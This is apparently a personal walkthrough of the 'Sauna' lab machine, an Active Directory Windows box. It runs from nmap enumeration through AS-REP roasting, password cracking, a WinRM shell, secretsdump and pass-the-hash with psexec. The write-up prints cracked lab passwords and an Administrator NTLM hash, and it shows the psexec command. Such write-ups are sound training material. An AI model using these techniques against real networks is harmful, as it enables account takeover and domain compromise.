 # Sauna

Tags: AD-Win
Level: Easy
Status: Done
Date: December 19, 2023

### Nmap

> nmap -sC -sV -A -T4 10.10.10.175 -oN Nmap_Sauna
Starting Nmap 7.94SVN ( [https://nmap.org](https://nmap.org/) ) at 2023-12-13 19:58 EST
Nmap scan report for 10.10.10.175
Host is up (0.062s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-14 07:58:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
> 
> 
> Host script results:
> | smb2-security-mode:
> |   3:1:1:
> |_    Message signing enabled and required
> |*clock-skew: 7h00m00s
> | smb2-time:
> |   date: 2023-12-14T07:59:03
> |*  start_date: N/A
> 
> Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
> Nmap done: 1 IP address (1 host up) scanned in 60.65 seconds
> 

Using IP address **10.10.10.175** web page is there

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled.png)

### Enumeration

Trying to start with **389 LDAP** port

No response with smbclient, enum4linux, dig, rpcclient

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%201.png)

Using crackmapexec useful response yes STATUS_ACCESS_DENIED

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%202.png)

Some response with ldapsearch

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%203.png)

*No useful response after intercepting the website traffic in burpsuite only GET, HEAD, OPTIONS, TRACE methods are enabled no POST methods.*

*Unable to send information in contact page and mail subscription link with HTTP POST request.*

**Then copying user form about page**

Fergus Smith

Shaun Coins

Hugo Bear

Bowie Taylor

Sophie Driver

Steven Kerb

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%204.png)

Checking **LDAPSEARCH**

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%205.png)

Change the format of names 

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%206.png)

Using kerbrute for user enumeration to bruteforce

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%207.png)

2 users are found **Administrator, FSmith**

Next try with [**GetNPUsers.py](http://GetNPUsers.py)** got some interesting information

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%208.png)

For administrator user and FSmith user

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%209.png)

Let’s try with johntheripper

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2010.png)

Got the passowrd

Username/Password : FSmith/Thestrokes23

### User flag

Got shell using Evil-WinRM

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2011.png)

Check for privileges

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2012.png)

No interesting information found on this page

After using credentials crackmapexec no information found

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2013.png)

After running **winPEAS.bat** their no much interesting information

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2014.png)

But running after **.\winPEASx64.exe** more interesting information prefer this over bat file

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2015.png)

Using credentials trying to login with evil-winrm, no luck

svc-loanmanager/Moneymakestheworldgoround!

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2016.png)

[**secrectsdump.py](http://secrectsdump.py) this** file has error before running script try to execute first

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2017.png)

Administrator LM:NTLM hash 

aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2018.png)

### Root flag

./psexec.py administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2019.png)

flag

![Untitled](Sauna%20d4b01e4186cf48f4a793d81369ac45f9/Untitled%2020.png)
